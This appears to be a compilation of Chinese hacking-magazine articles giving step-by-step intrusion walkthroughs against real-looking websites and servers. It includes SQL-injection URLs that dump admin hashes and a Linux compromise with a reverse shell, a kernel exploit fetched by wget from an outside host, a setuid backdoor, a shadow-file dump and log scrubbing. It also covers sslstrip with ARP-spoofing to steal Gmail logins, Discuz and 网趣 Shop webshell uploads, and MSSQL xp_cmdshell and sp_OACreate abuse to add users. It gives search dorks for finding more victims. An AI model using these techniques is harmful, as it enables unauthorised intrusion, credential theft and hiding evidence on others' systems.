





介绍了一个查看数据库版本的命令，我们只需要将命令中的 `version()` 改为 `database()` 就可以了，具体形式就是通过 union select 配合 limit 枚举库名。这里就爆出了 study 这个库，下面开始爆这个库中的表名。

```
http://study.that8.com/news.php?id=114129%20and%201=2%20union%20select%201,database(),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21
```



```
http://study.feloo.com/news.php?id=114129%20and%201=2%20union%20select%201,table_name,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19%20from%20information_schema.tables%20where%20TABLE_SCHEMA=0x7374756479%20limit%200,1/*
```

如果还想爆其它表名，逐个增加 limit 后面的数值即可。接下来继续爆字段：使用 information_schema.COLUMNS 并指定 `TABLE_NAME=0x61646D696E`（admin 的十六进制），即可得到字段名，如图9所示。

```
http://study.feloo.com/news.php?id=114129%20and%201=2%20union%20select%201,COLUMN_NAME,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19%20from%20information_schema.COLUMNS%20where%20TABLE_NAME=0x61646D696E%20limit%200,1/*
```

我们依次增加 limit 的数值，分别爆出了其它字段名称，如图10。现在我们已经爆出了所有需要的表和字段，最后通过 union select 拼接 admin_username 与 admin_password，即可得到管理员用户名和密码的 md5 值，如图11。大家看到了吧，这就是 mysql5.0 带给我们的乐趣，文中并未猜任何表名和字段，全部内容都是爆出来的。

## 一起深入入侵Linux服务器



今天给大家带来的是一次入侵 Linux 服务器，获得 root 权限，留下后门，清除日志的经历。此次入侵全都是在 Ubuntu 下进行的，和你使用的系统平台关系不大，只要有浏览器即可。相信大家还是入侵 Windows 服务器更多一些，其实入侵 Linux 服务器也同样简单，一些基本思路是通过 web 漏洞，比如 rfi、上传漏洞、sql 注入漏洞等得到 webshell，然后反弹回来一个 shell，再通过本地溢出程序进行提权，获得 root 权限。对于 Linux 服务器，使用 lamp 组合的比较多，所以我们在网上搜索 php 的网站，通过文件的大小写是否敏感就能判断出是否为 Linux 服务器了。

### 一、获得webshell

我们在 Google 中搜索 `inurl:php?id=120 site:.cn`，随便打开一个，在网址后面添加一个 `'`，提交后返回了如图1所示的错误信息。


在网址后面添加 `and 1=1`，提交后返回正常；添加 `and 1=2`，提交后内容消失了，由此可以确定存在注入漏洞。接下来我习惯先确定 mysql 的版本，因为如果是 5.x 的话就不用猜测表名、字段名了。在网址后面添加 `and substring(@@version,1,1)=5` 提交后返回正常；添加 `and substring(@@version,1,1)=4` 提交后内容消失，可以确定 mysql 的版本为 5.x。不过入侵并不是一帆风顺的，这个程序有点儿另类，使用 order by 和 union 查询都不行，如图2。


在这种情况下可以考虑网站的其它程序，在 Google 中搜索 `filetype:php site:bst.dlut.edu.cn`，发现其它的 php 也都有注入漏洞，不过依然不能使用 union select。这样的话只好考虑盲注了，关于盲注也有不错的工具 sqlmap，我自己也编写了一个，采用的是折半猜解法，跟传统的注入一样方便，如图3。


在此我简单介绍一下用法：

```
读出当前数据库的所有表名
/bx.pl 'select group_concat(table_name) from information_schema.tables where table_schema=database()'

读出某表名（admin）的字段名（0x* 为 admin 的 hex 编码）
/bx.pl 'select group_concat(column_name) from information_schema.columns where table_name=0x61646d696e'

读出 admin 表中 usr、psd 的内容
/bx.pl 'select group_concat(usr,0x3a,psd) from admin'
```

我们把 SQL 语句当成 bx.pl 的一个参数提交就可以了。在查询的时候我顺便把后台也给找到了，在前面的测试过程中出现过将 `'` 转换成 `\` 的错误提示，所以不能使用单引号。我没有尝万能密码，用户名和密码直接试了下 admin，没想到就这样直接进去了，如图4。在更新首页图片新闻的地方直接上传 phpspy 就可以获得 webshell 了。


### 二、反弹shell，提升权限

在本地电脑使用 `nc -lvvp 8080` 命令监听 8080 端口，再在 phpspy 中反弹回一个 shell，如图5。执行 `uname -a` 命令看了下内核版本，显示为：`Linux idc00 2.6.18-4-686 #1 SMP Wed May 9 23:03:12 UTC 2007 i686 GNU/Linux`；执行 `cat /proc/version` 命令，显示是 `Linux version 2.6.18-4-686 (Debian 2.6.18.dfsg.1-12etch2) ...`。

我在 milw0rm.com 网站上找到了一个内核溢出程序，适用范围为 Linux 2.6.17-2.6.24.1 的内核。我们直接在 shell 中使用 `wget http://111.111.111.111/exp.c` 的方式把文件下载到 /tmp 目录下，当然也可以使用 phpspy 上传上去，然后使用 gcc 进行编译：`gcc -o exp exp.c`。编译成功后直接运行 `./exp`，成功地获得了系统的 root 权限，如图6。


### 三、留本地setuid root后门和添加proftp账号

接下来我们留个后门，不能每次为了 root 权限都要来溢出一下吧，万一管理员哪天打了补丁，恐怕连溢出的机会都没有了，还是留个后门更保险。具体的操作如下：

```bash
ls /lib/ld-linux*    # 留 setuid 本地后门
cp /lib/ld-linux.so.2 /tmp/bd
ls -l bd
chmod +s bd
ls -l bd
```

接下来我们退出 root，来看我们制作的 root 后门，直接执行 `./bd \`which whoami\``，显示为 root，我们再次获得了 root 权限，如图7。

我们先使用 `cat /etc/shadow > /tmp/sd.txt` 命令把 shadow 文件复制成 `/tmp/sd.txt` 文件，然后再使用 phpspy 把 sd.txt 文件下载回来，在本地执行 `john -i:all sd.txt` 命令进行破解。使用 nmap 扫描目标主机，发现开启了 21 端口，如图8。在 shell 里执行 `ps aux|grep ftp`，发现使用的是 proftp，我们再来给自己添加一个 ftp 用户：`echo 'fuser/:555:555::/var/www:/bin/false' >> /etc/proftpd/passwd`。


接下来就是清除日志了，我们来清除 web 日志和 ftp 日志，利用 sed 替换日志中我的 IP 为其他伪装的 IP，然后一次性替换修改所有日志文件。

```bash
cd /var/log/apache2
sed -i 's/111.111.111.111/127.0.0.1/g' *.log
cd /var/log/proftpd
sed -i 's/132.125.25.21/127.0.0.1/g' *.log
```

到此整个入侵就结束了，删除掉 `/tmp/` 目录下的垃圾，闪人就行了！（文中涉及到的 phpspy、Linux 本地溢出程序，已经收录在光盘中）

## 内网突破SSL来嗅探

赵小布

大家都知道，在内网中使用 Cain 等嗅探工具可以嗅探到使用 HTTP、Telnet 等协议传输的明文数据，比如用户名和密码等。但是如果使用经过 SSL（安全套接字层）加密的协议，比如 HTTPS（Secure Hypertext Transfer Protocol）来传输数据，那么就无法嗅探到了。但在今年举行的黑帽子大会上，一位网络安全研究人员 Moxie Marlinspike 发布了一款名为 sslstrip 的工具，成功地解决了这个问题。

在介绍截获过程前，我先来讲一下背景知识。SSL（Secure Socket Layer）也就是安全套接字层，是由 Netscape 研发的利用数据加密技术来保证在 Internet 上数据传输安全的协议。SSL 协议位于 TCP/IP 协议与各种应用层协议之间，为数据传输提供安全支持。SSL 协议分为两层：SSL 记录协议（SSL Record Protocol）和 SSL 握手协议（SSL Handshake Protocol），用于在实际传输数据前进行身份认证、协商机密算法等。

我们使用经过 SSL 加密的 HTTPS 协议，一般是两种方法：被动式和主动式。大家在上网的时候，可能都遇到过这种情况：在使用邮箱等功能时，会跳出一个“安全警报”提示框；点击确定后跳转到登录页面，这时地址栏以 https 开头，说明采用了安全超文本传输协议。也就是说，输入的邮箱和密码都使用 SSL 加密后才传给服务器，所以一般嗅探软件很难直接嗅探到。


SSLStrip 之所以能够攻击成功，是因为大多数使用 SSL 加密的网站通常首先为访问者提供一个未加密的页面，只有开始传输敏感信息时才提供加密保护。


这个细微的差别就体现在 HTTP 和 HTTPS 上，但很少有人会注意到浏览器上产生的这种细微差别。SSLStrip 本质上是中间人（man-in-the-middle）攻击，需要通过 ARP 欺骗来实现。它通过监视被欺骗主机的 HTTP 传输来进行工作，当被欺骗主机试图进入加密的 HTTPS 会话时，它充当代理作用。当主机认为安全会话已经开始时，SSLStrip 也通过 HTTPS 连接到安全服务器，用户到 SSLStrip 的连接却是 HTTP，这也就意味着浏览器上的“安全警报”提示已经被阻止了。浏览器看起来正常工作，但期间所有注册信息都可以轻易被截获。

下面我来详细演示一下 sslstrip 的攻击过程。sslstrip 是 Linux 下的工具，使用 BT3 环境。工具可从 Moxie Marlinspike 的网站下载（http://www.thoughtcrime.org/software/sslstrip/）。工具使用 Python 编写，需要 Python 2.4 以上版本。

```bash
tar zxvf sslstrip-0.6.tar.gz
cd sslstrip-0.6
```


在 shell 中执行 `python ./setup.py install` 命令来安装 sslstrip，如图 5。使用 Ubuntu 等系统的友子不要忘记加上 sudo，使用 root 权限来运行。现在，sslstrip 就安装好了。接下来我们在当前的 shell 中执行 `echo "1" > /proc/sys/net/ipv4/ip_forward`，使电脑进入 forwarding 模式，如图 6。


接下来执行 `iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 10000` 命令，通过 iptables 把所有 HTTP 数据导入 sslstrip。iptables 是 Linux 内核集成的 IP 信息包过滤系统，`-t` 选项指定命令要操作的匹配包的表，我们使用 nat 这个表；当这个表被查询时，表示遇到了新产生的连接包。nat 表由三个内建的链构成：PREROUTING（修改到来的包）、OUTPUT（修改路由之前本地的包）、POSTROUTING（修改派生出去的包）。我们这里选择的是 PREROUTING 这个链，表示要修改到来的包。`-A` 选项表示在所选择的链末添加一条或更多规则。`-p` 选项指定过滤包的协议，可以是 tcp、udp、icmp 中的一个或者全部。我们这里过滤的是 tcp 包；`--destination-port` 选项指定目标端口，我们这里指定 80 端口。`-j REDIRECT --to-port` 表示将 80 端口的数据跳转到指定端口来传输，我们这里使用的端口号是 10000，如图 7。端口转发设置完之后，我们再使用 `sslstrip -l 10000` 命令来监听 10000 端口，如图 8。


现在一切准备就绪。那如何才能让目标主机的数据发送到我们监听的端口上来呢？这里就得要 ARP 来大显神威了。我使用的是 BT3 下的一款名叫 arpspoof 的软件。我们另开一个 shell，先执行 ifconfig 命令查看自己的网卡名称，如图 9。可以看到我这里的网卡名称是 eth0。然后再执行 `arpspoof -i eth0 -t 192.168.1.1（网关） 192.168.1.100（目标主机）` 命令，就开始 ARP 欺骗了，如图 10。经过 ARP 欺骗之后，网关发向目标主机的数据包就会发向本机，然后由本机再转发给目标主机。为了实现双向欺骗，我们另开一个 shell，执行 `arpspoof -i eth0 -t 192.168.1.100（目标主机） 192.168.1.1（网关）` 命令。这样目标主机发向网关的数据就会先发向本机，然后再由本机转发给网关。


好了，现在我们再在目标主机上登录 Google 邮箱，没有跳出“安全警报”提示框。然后在监听主机上打开 sslstrip-0.6 这个文件夹，查看 sslstrip.log 日志文件，如图 11 所示，成功地截获了我们的用户名和密码！


目前 SSL 加密广泛地用于银行业等网站上，这个漏洞的爆出给这些行业带来不小的危机。但还好，要想成功利用这个漏洞，必须要入侵目标计算机网络的内部才行。也就是说，只有在内网中，才有可能实现 SSL 攻击！

> （文章中涉及到的 sslstrip-0.6.tar.gz 已经收录在了光盘中）


# 一个人的战争

1 月 6 日，国内著名开源论坛程序 Discuz! 的最新版本 Discuz! 7.2 和 7.1 被人爆出存在远程代码执行漏洞，并且漏洞的利用方法当天就传遍了整个网络。攻击者利用这个漏洞可以轻易地拿到 Discuz! 7.2 和 7.1 论坛的 webshell。由于网上使用 Discuz! 7.2 和 7.1 论坛程序的网站非常多，致使引起了一场网络大风暴，国内许多著名的论坛相继被黑。

“漏洞来自于 showmessage 函数，DZ 的全局机制导致了未初始化的参数可以任意提交，misc.php 正好有个可以自定义 message 的点，其实也是未初始化”……由此引出对该漏洞的介绍。作者主要介绍如何利用该漏洞得到 webshell 以及修补方法。

为了演示，作者下载了存在漏洞的 Discuz! 7.2 build 1126 简体 GBK 版并在本地 PHP 环境搭建，访问地址为 `http://127.0.0.1/discuz7.2/`，如图 1。


漏洞利用较简单：先注册用户（如 `test`）并登录，然后在地址栏追加参数提交 payload（包含 `misc.php?action=imme_binding&response[result]=...` 与 `base64_decode(...)` 等内容），提交后显示如图 2。


页面仅出现一个符号，说明利用成功；论坛根目录下已生成 `x.php`，内容为 `<?php @eval($_POST[x]); ?>`，见图 3。随后用一句话木马客户端连接 `http://127.0.0.1/discuz7.2/x.php` 可得到 webshell（图 4）。

文中进一步解释利用代码中的 `base64_decode(...)`：其本质是将未加密内容（如写入 `x.php` 的语句）进行 Base64 编码。若不编码直接访问会提示 `Request Bad url`，无法写入 `x.php`（图 5）。


借助在线 Base64 工具（`http://tool.chinaz.com/Tools/Base64.aspx`），可看到 `<?php @eval($_POST[x]); ?>` 编码后对应字符串（文中给出具体编码），如图 6。

考虑到有的论坛根目录可能不可写，而 `forumdata/cache/` 可写，文中给出在该目录生成一句话木马 `x.php` 的提交代码；随后访问 `http://127.0.0.1/discuz7.2/forumdata/cache/x.php` 也可得到 webshell（图 7）。


最后作者提到修补方法：在 `include` 目录下的 `common.inc.php` 文件中添加相应处理逻辑以修复该漏洞（后续内容续页）。


图 7

“`$response=$scriptlang=array();`”这句代码就行了。另外，Discuz! 官方在当天晚些时候也已经推出了补丁，地址为 http://www.discuz.net/thread-1537673-1-1.html，大家可以下载官方的补丁来修复该漏洞。我们在 Google 或百度中搜索“Powered by Discuz! 7.2”、“Powered by Discuz! 7.1”就可以找到许多存在这个漏洞的网站，不过还是提醒大家，拿 webshell 可以，但千万不要搞破坏！


在网上闲逛时看到有人公布出了一个程序的漏洞：网趣 Shop V9.6 SQL Injection Vulnerability。我从网上下载了网趣 Shop V9.6 的源代码，在虚拟机里测试了一下，成功地爆出了管理员的用户名和密码。我又花了点时间在后台寻找获得 webshell 的方法，工夫不负有心人，还真让我给找到了。由于网上使用 Shop V9.6 的网站比较多，我在百度搜索出来的第一页的 100 个结果中就拿到了 10 来个 webshell。

网趣网上购物系统是一套面向企业、个人用户的网上开店软件，产品拥有庞大的用户使用群体，无论是在稳定性和安全保障等方面都居于国内外同类产品领先地位。就是这个自称“在稳定性和安全保障等方面都居于国内外同类产品领先地位”的程序却出现了这么严重的 SQL 注入漏洞。出现漏洞的是位于根目录下的 textbox2.asp 文件，其关键代码如下：

```asp
Action=LCase(Request.QueryString("Action"))
newsID=Request.QueryString("newsid")
If request("action")="modify" Then
 set rs=server.createobject("adodb.recordset")
 sql="select * from news where newsid="&newsid
 rs.open sql,conn,1,1
```

变量 newsID 没有经过任何过滤就带入了查询，SQL 注入漏洞就这样产生了。为了测试，我从网上下载了存在漏洞的网趣网上购物系统时尚版 v9.6，在虚拟机的 Windows 2003 系统中把网站搭建了起来，访问地址为 http://127.0.0.1，如图 1。

下面来看漏洞的利用，直接访问：

`http://127.0.0.1/textbox2.asp?action=modify&newsid=65%20and%201=2%20union%20select%201,2,admin%2Bpassword,4,5,6,7,8%20from%20cnhww`

就爆出了后台管理员的用户名和密码，如图 2。由于用户名和密码之间没有空格，我们可能不好区分具体哪儿是用户名哪儿是密码。事实上密码是 16 位的 MD5 值，我们从右边向左数 16 位就是密码，剩下的就是用户名。把密码拿到 MD5 在线查询网站进行破解，结果得到密码为 admin。网趣 Shop V9.6 的后台登录页面为 `http://127.0.0.1/admin/login.asp`，使用得到的用户名和密码就可以成功登录进入后台了，如图 3。


图 1


图 2


图 3

既然进入了后台，那就想办法拿 webshell 吧。本以为会很简单，没想到却费了好大一番周折。我首先注意到后台可以备份数据库，就想通过备份数据库来拿 webshell，但来到数据库备份的地方仔细一看，发现不能自定义备份后数据库的名称，默认的名称是 shop.mdb，如图 4。看来通过上传后缀名为 jpg 的一句话木马，再通过数据库备份功能备份成为后缀名是 asa 或 cer 文件的路是走不通了。再来看上传，选择“商品管理”中的“添加商品”，来到了上传的地方，看着这个编辑器有点儿眼熟，很像 eWebEditor，如图 5。


通过查看源代码中的文件，发现果然是 eWebEditor，但后台登录页面被删除了，存在 db 目录，数据库文件名为 dbwebedit#cc495898.asp，不允许上传 .asp、.asa、.cer 等后缀的文件，看来通过 WebEditor 得到 webshell 的路也被堵死了。这个页面上还有两个上传文件的地方，分别是“上传小图片”和“上传大图片”，点击“上传大图片”后来到了如图 6 所示的上传页面。


先来上传一个正常的图片文件 1.jpg，成功上传了，说明上传功能正常。再来直接上传 .asp 后缀的一句话木马，提示“所上传类型不正确”。我们把一句话木马改名为 123.jpg 后进行上传，出现的结果却自相矛盾：提示了“文件格式不正确”，但提示框却说“文件上传成功！”，如图 7。

点击“确定”后，在“添加商品”的页面中自动给出了上传文件的地址“upfile/proimage/2009123116324741336.jpg”（相对地址），如图 8。难道文件上传成功了？我们来到 `upfile\proimage` 目录下，果然看到了上传的文件 2009123116324741336.jpg，如图 9。这说明一句话木马文件被传上去了，可惜却是 .jpg 后缀。

由于上传后的文件被重命名了，上传名为“x.asp;x.jpg”的一句话木马也不行，真是让人郁闷呀，上传 webshell 受挫。这时我又注意到点击“上传大图片”后打开的上传页面地址为：

`http://127.0.0.1/upload.asp?formname=myform&editname=zhuang&uppath=upfile/proimage&filelx=jpg`

`uppath` 字面理解为上传目录，而文件也确实传到了它后面跟的 upfile/proimage 目录下；`filelx=jpg` 中的 jpg 正是上传后文件的后缀。我尝试把 `filelx=jpg` 更改为 `filelx=asp`，也就是访问：

`http://127.0.0.1/upload.asp?formname=myform&editname=zhuang&uppath=upfile/proimage&filelx=asp`

后尝试上传文件，发现传上去的文件还是 .jpg 后缀。那么是不是可以自定义上传文件的路径呢？我发现 pay 目录和 upfile 目录都在网站根目录下；打开：

`http://127.0.0.1/upload.asp?formname=myform&editname=zhuang&uppath=pay&filelx=jpg`

上传改名为 123.jpg 的一句话木马，文件成功地传到了 pay 目录下，如图 10。

说明我们可以自定义上传文件的上传目录。来尝试一个不存在的目录 x，打开：

`http://127.0.0.1/upload.asp?formname=myform&editname=zhuang&uppath=x&filelx=jpg`

尝试上传，虽然提示上传文件的相对地址为 `x/2009123117475051820.jpg`，但来到网站根目录下，根本就没有这个目录，这说明显然可以自……


# 一个人的战争

定义上传文件的上传路径，但如果指定的上传路径不存在，则不会自动创建该目录。如果有一个类似 `hackerxfiles.asp` 的目录，再是 IIS 6.0 的话，我们就可以把一句话木马上传到 `hackerxfiles.asp` 目录下，通过 IIS 6.0 的文件解析漏洞拿到 webshell 了。

“.../Databackup.asp”后面添加上 `.asp`，也就是备份路径为“../Databackup.asp”，如图11。接着把地址改为 `http://127.0.0.1/upload.asp?formname=myform&editname=zhuang&uppath=Databackup.asp&filelx=jpg`，上传一句话木马并访问得到 webshell，如图12。


使用一句话木马客户端连接 `http://127.0.0.1/Databackup.asp/2009123118111645702.jpg`，成功得到 webshell，如图12。


以上就是我在后台拿到 webshell 的详细过程，其实在找到方法后利用起来还是很简单的，大体步骤就是：

- 在网址后面加 `textbox2.asp?action=modify&newsid=65%20and%201=2%20union%20select%201,2,admin%2Bpassword,4,5,6,7,8%20from%20cnhww` 来爆用户名和密码。
- 进入后台后备份，目录写 `Databackup.asp`。
- 在网址后面添加 `upload.asp?formname=myform&editname=zhuang&uppath=Databackup.asp&filelx=jpg`，把一句话木马上传到 `Databackup.asp` 目录下来得到 webshell。

网上使用网趣 Shop 的网站有很多，给大家提供两个搜索关键词：“友情链接：恒伟网络[网趣网上购物系统]”和“顾客您好，购买商品请先登录”。上面介绍的拿 webshell 的方法需要对方服务器使用 IIS 6.0。（文章中涉及到的网趣网上购物系统时尚版 v9.6 已经收录在了光盘中）

## 风云房产门户内幕洞彻真壳 shell

hx小龙（白雪龙）

风云房产门户信息网站源码是一套功能全面并且操作简便的网站程序，但在安全性上存在较大隐患。安全隐患主要有以下几点：

- 默认数据库地址为 `data/fyhouse.mdb`；
- 默认后台 admin 目录（`/login.asp`）；
- 默认账号和密码 admin；
- 有些网站存在上传漏洞，在网站后边添加 `upload.asp` 或 `Upfile_Photo.asp` 就出现上传界面；
- 登录进入后台可以在系统管理中自定义添加格式；
- 使用了经典编辑器。

下面我就简单介绍一下利用方法，首先打开 Google 搜索关键词“inurl:house/liuchen_detail.asp”，会找到很多使用这套程序的网站，在网址的后面直接添加默认的数据库地址，可以看到正常下载了，如图2。


图1


图4


图2

我们把默认数据库下载到本地后，使用数据库管理助手打开，从中找到 `maneger66` 这个表，如图3，双击查看用户名与密码，然后把 MD5 密码拿到 CMD5 等网站上去在线查询，可以看到破解成功了，密码为 911911，如图4。


图5


图6


图7


图3

使用得到的用户名和密码登录网站的默认后台，选择“系统管理”－“系统设置”，在“上传文件设置”的“允许上传图片类型”中，添加 `asa` 格式或者 `asp` 格式，我们还可以更改上传文件的大小，最后点击保存，如图5。

然后我们选择后台的公司管理，随意选择一个公司，在图片上传处上传我们的 asp 木马，点击修改，会提示修改成功。此时我们返回，在图片上点击鼠标右键选择属性，便可以看到上传成功后木马的具体路径了，如图6。在浏览器里直接打开就可以看到，木马已经乖乖地躺在那里了，如图7。

本文我只是为大家介绍了一种最简单的拿 shell 的过程，上边我已经提到过了，这套程序还存在许多致命的漏洞，限于篇幅我就不详细介绍了，大家有兴趣的话，可以自己去研究一下，利用起来也都是非常简单的。

（文章中涉及到的数据库管理助手，已经收藏在了光盘中）

## 记一次 1433 弱口令全服安装过程


这几天没什么事做，就在学校的网站上随便逛逛，结果来到了学校英语教学中心的网站，顺手检测了一下，发现主站存在注入漏洞，但是服务器似乎没有设置好，没有启用父路径，如图1。其实这个只要在 IIS 的“应用程序配置”的“选项”中勾选上“启用父路径”就可以了，如图2。


图1


图2

又看了一会儿，似乎也没有别的可以利用的了，于是就把注入得到的用户名和密码添加到了 Hscan 的 FTP 字典里，看能不能跑出 FTP 的弱口令。跑了一会儿，FTP 的弱口令没有跑出来，倒是跑出来了 MSSQL 的弱口令，如图3。


这下好了，有了 sa 的弱口令，运气好的话就可以直接执行命令添加用户了。我立刻使用 sqltools 连接上去，执行了一个命令，却提示“未能找到存储过程 master.xp_cmdshell”，如图4。看来 `xp_cmdshell` 被删除了，我们恢复一下就可以了。使用查询分析器连接上数据库，然后输入“`EXEC sp_addextendedproc xp_cmdshell,@dllname='xplog70.dll'`”，按 F5 执行，却提示“未能找到存储过程 sp_addextendedproc”，如图5。


看来 `sp_addextendedproc` 这个存储过程也被删除了，到网上找了找资料，然后在查询分析器里输入了以下命令：

```sql
use master
go
create procedure sp_addextendedproc
@functname nvarchar(517),
@dllname varchar(255)
as
set implicit_transactions off
if @@trancount > 0
begin
  raiserror(15002,-1,-1,'sp_addextendedproc')
  return (1)
end
dbcc addextendedproc(@functname,@dllname)
return (0)
```

这回终于提示命令成功完成了，再来执行命令，结果又提示了“无法装载 DLL xplog70.dll 或该 DLL 所引用的某一 DLL。原因：126”，如图6。看来 `xplog70.dll` 有可能是被管理员删除了。

使用 sqltools 上传了一个 `xplog70.dll`，结果等了一半就出错了，看样子 `xp_cmdshell` 是不能用了，再来试试 `sp_OACreate` 吧。在查询分析器里输入 `DECLARE @shell INT EXEC SP_OAcreate 'wscript.shell',@shell OUTPUT EXEC SP_OAMETHOD @shell,'run',null,'net user hack hacker /add'` 命令并执行，返回如图7所示：

`sp_OACreate` 和 `sp_OAMethod` 都被删除了，`sp_OACreate` 也不能使用了。没办法，我只好在本地做了一个注入页面，使用啊D尝试列目录，结果也无法列目录，上传也没有成功，看来这个管理员很厉害啊。我又想了想，来试试沙盒模式吧，在查询分析器里输入 `EXEC master.dbo.xp_regwrite 'HKEY_LOCAL_MACHINE','SoftWare\Microsoft\Jet\4.0\Engines','SandBoxMode','REG_DWORD',0` 命令并执行，返回结果如图8所示，`xpstar.dll` 也被删除了，看来连沙盒也无望了。小菜我才疏学浅，只好到网上去找资料。


在网上找了一会儿，终于找到了一篇文章，是利用读文件的方法猜到了网站目录，执行的 SQL 语句如下：

```sql
CREATE TABLE [nspcn](ResultTxt nvarchar(1024) NULL)
BULK INSERT [nspcn] FROM 'c:\boot.ini' WITH (KEEPNULLS)
insert into [nspcn] values ('g:over')
Alter Table [nspcn] add id int NOT NULL IDENTITY (1,1)
select * from [nspcn]
drop table [nspcn]
```

不过我看得不太明白，在本地测试了一下，成功地读到了 `c:\boot.ini` 的内容，然后开始猜网站目录。网站有 `index.asp` 这个文件，先来试试默认的目录，把第二句改为 `BULK INSERT [nspcn] FROM 'C:\inetpub\wwwroot\index.asp' WITH (KEEPNULLS)`，在查询分析器里执行，结果出错了，如图9。


我又想了想，网站一般都会存放在 D 盘，网站名为“cetc.xxx.com”，于是我试着读 `d:\cetc\index.asp`，出错了；又试着读 `d:\web\cetc\index.asp`，竟然成功地读出了内容，如图10。


